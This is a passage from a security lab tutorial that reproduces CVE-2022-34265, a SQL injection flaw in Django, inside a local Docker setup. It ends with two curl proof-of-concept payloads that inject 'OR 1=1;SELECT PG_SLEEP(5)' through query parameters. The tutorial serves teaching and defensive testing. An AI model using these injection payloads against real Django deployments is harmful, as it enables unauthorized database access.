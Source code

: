 6. In your terminal, type:

```
docker-compose up -d
```

- **Note**: The **`-d`** flag runs the containers in the background. Otherwise, you would see the output from the container in the terminal window.

![Django Image 6 Docker Done](https://images.ctfassets.net/kvf8rpi09wgk/7ioxplmJAvrbSTJLcJWZyJ/26664a62d86dffb865ecb1972b9f7604/Django_Image_6_Docker_Done.png)

7. To list the containers we created, type:

```
docker ps
```

![Django Image 7 Docker ps](https://images.ctfassets.net/kvf8rpi09wgk/6PKByRvDyHWKsIXSpxb0v7/5660a80340b04ef2fc6824e7c87021c8/Django_Image_7_Docker_ps.png)

8. Using the **`docker inspect`** command allows you to find additional information about the Docker container. To review that information, type:

```
docker inspect cve-2022-34265_postgres_1
```

- You should also be able to see the username, password, and database displayed:

![Django Image 8 Docker Inspect](https://images.ctfassets.net/kvf8rpi09wgk/30sDGIqEkWDUEzGwbNun4m/a4e839b7b818dfbf0be83eb354162cfd/Django_Image_8_Docker_Inspect.png)

- **Note**: Although hacking Docker itself is another topic beyond the scope of this lesson, the above commands should help you understand a bit about how to run, list, and inspect Docker containers.

9. Open a web browser and enter: [http://localhost:4131/extract/?lookup_name=year](http://localhost:4131/extract/?lookup_name=year)

![Django Image 9 lookup name year](https://images.ctfassets.net/kvf8rpi09wgk/4xA7LlU3dm6dV7r2GqWu7Q/8956ef40c0dc93f7d60dec2d14e384f8/Django_Image_9_lookup_name_year.png)

10. Surf to: [http://localhost:4131/trunc/?kind=year](http://localhost:4131/trunc/?kind=year)

![Django Image 10 Res](https://images.ctfassets.net/kvf8rpi09wgk/6a6etCyBZj02Xn4YYblGvt/3579335dd30de53030ff379249344e99/Django_Image_10_Res.png)

11. In another browser tab, open aeysec’s GitHub repo: [https://github.com/aeyesec/CVE-2022-34265](https://github.com/aeyesec/CVE-2022-34265)
    
12. Scroll down to the PoC section: [https://github.com/aeyesec/CVE-2022-34265#poc](https://github.com/aeyesec/CVE-2022-34265#poc)
    
13. You can test the two PoCs in your terminal window. Copy each of the following PoCs from the GitHub tab in the browser into the terminal window, one at a time, and run them one at a time:
    

```
curl 
"http://localhost:4131/extract/?lookup_name=year%27%20FROM%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
```

```
curl 
"http://localhost:4131/trunc/?kind=year%27,%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
```
